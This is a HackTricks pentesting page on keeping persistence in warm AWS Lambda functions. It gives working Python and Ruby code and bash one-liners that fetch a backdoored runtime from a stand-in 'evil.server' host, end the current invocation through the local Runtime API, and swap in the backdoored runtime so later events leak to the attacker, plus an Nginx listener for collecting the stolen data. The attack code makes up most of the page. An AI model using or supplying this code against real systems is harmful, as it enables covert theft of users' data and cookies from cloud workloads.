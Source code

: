 # AWS - Warm Lambda Persistence

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Python Runtime <a href="#python-runtime" id="python-runtime"></a>

After identifying that your target is using the Python runtime, you'll need a copy of the `/var/runtime/bootstrap.py` file. You can get this by either creating your own Lambda function and copying it, or by leaking it from the target Lambda function.

Next, you'll want to modify this runtime with some logic to backdoor it. This can be simply done with a few lines such as the following:

![Python - Backdoored Lambda Bootstrap File](https://hackingthe.cloud/images/aws/persistence/lambda\_persistence/python\_backdoor\_bootstrap.png)

You can customize what the backdoor does, depending on what you're looking to do. Maybe you want to leak a specific user's data. Maybe you just want Cookies. It's up to you!

With the `bootstrap.py` file backdoored, you'll want to host it in a location that is accessible for the Lambda function to pull down.

The next step is creating a one-liner to pull down this modified code, as well as to terminate the current event in the [Runtime API](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html). This can be done by posting to a specific endpoint with the current request ID. All together, that code should look something like this:

```python
import urllib3
import os
http = urllib3.PoolManager()

# Writing the new bootstrap to a file
r = http.request('GET', 'https://evil.server/bootstrap.py')
w = open('/tmp/bootstrap.py', 'w')
w.write(r.data.decode('utf-8'))
w.close()

# Getting the current request ID
r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
rid = r.headers['Lambda-Runtime-Aws-Request-Id']

# End the current event
http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'})

# Swap the runtimes
os.system('python3 /tmp/bootstrap.py')
```

Or as a long one-liner (don't forget to change the hostname):

```bash
python3 -c "import urllib3;import os;http = urllib3.PoolManager();r = http.request('GET', 'https://evil.server/bootstrap.py');w = open('/tmp/bootstrap.py', 'w');w.write(r.data.decode('utf-8'));w.close();r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');rid = r.headers['Lambda-Runtime-Aws-Request-Id'];http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'});os.system('python3 /tmp/bootstrap.py')"
```

From here on, all subsequent events should be leaked to the attacker. Remember that if the Lambda function is not used for 5-15 minutes, it will become "cold" and you will lose access to the persistence you've established. You can execute the function again to keep it "warm" or you can simply reestablish persistence.

### Ruby Runtime <a href="#ruby-runtime" id="ruby-runtime"></a>

After identifying that your target is using the Python runtime, you’ll need a copy of the `/var/runtime/lib/runtime.rb` file. You can get this by either creating your own Lambda function and copying it, or by leaking it from the target Lambda function.

Next, you’ll want to modify this runtime with some logic to backdoor it. This can be simply done with a few lines such as the following:

![Ruby - Backdoored Lambda Bootstrap File 1](https://hackingthe.cloud/images/aws/persistence/lambda\_persistence/ruby\_backdoor\_bootstrap\_1.png)

![Ruby - Backdoored Lambda Bootstrap File 2](https://hackingthe.cloud/images/aws/persistence/lambda\_persistence/ruby\_backdoor\_bootstrap\_2.png)

With the `runtime.rb` file backdoored, you’ll want to host it in a location that is accessible for the Lambda function to pull down. Note, you'll likely want to rename it to something like `run.rb`. This is because you'll want to create a symbolic link between everything in `/var/runtime/lib` to `/tmp`. This will ensure your modified `runtime.rb` file can access all the additional libraries it needs.

The next step is creating a one-liner to create those symbolic links, pull down this modified code, and execute it as well as to terminate the current event in the [Runtime API](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html). This can be done by posting to a specific endpoint with the current request ID. All together, that code should look something like this:

```ruby
require 'net/http'

# Writing the new runtime to a file
uri = URI('https://evil.server/run.rb')
r = Net::HTTP.get_response(uri)
File.write('/tmp/run.rb', r.body)

# Getting the current request ID
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
r = Net::HTTP.get_response(uri)
rid = r.header['Lambda-Runtime-Aws-Request-Id']

# End the current request
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+rid+'/response')
Net::HTTP.post(uri, 'null')
```

Or as a long one-liner (don’t forget to change the hostname, create the symbolic links, or execute the code in the background):

```bash
ln -s /var/runtime/lib/* /tmp && ruby -e "require 'net/http';uri = URI('https://evil.server/run.rb');r = Net::HTTP.get_response(uri);File.write('/tmp/run.rb', r.body);uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');r = Net::HTTP.get_response(uri);rid = r.header['Lambda-Runtime-Aws-Request-Id'];uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+rid+'/response');Net::HTTP.post(uri, 'null')" && ruby /tmp/run.rb &
```

From here on, all subsequent events should be leaked to the attacker. Remember that if the Lambda function is not used for 5-15 minutes, it will become “cold” and you will lose access to the persistence you’ve established. You can execute the function again to keep it “warm” or you can simply reestablish persistence.

### Creating a Listener <a href="#creating-a-listener" id="creating-a-listener"></a>

How you receive leaked events is up to you. The author found that the simplest way was via post requests to an Nginx server. The configuration was simple. First, outside of the server block, include a line like `log_format postdata $request_body`.

Next, include the following inside the server block:

```jsdoc
location = /post {
    access_log /var/log/nginx/postdata.log postdata;
    proxy_pass http://127.0.0.1/post_extra;
}
location = /post_extra {
    access_log off;
    return 200;
}
```

After restarting Nginx, all logs received via post requests should be stored in `/var/log/nginx/postdata.log`.

## References

* [https://hackingthe.cloud/aws/post\_exploitation/lambda\_persistence/](https://hackingthe.cloud/aws/post\_exploitation/lambda\_persistence/)
* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
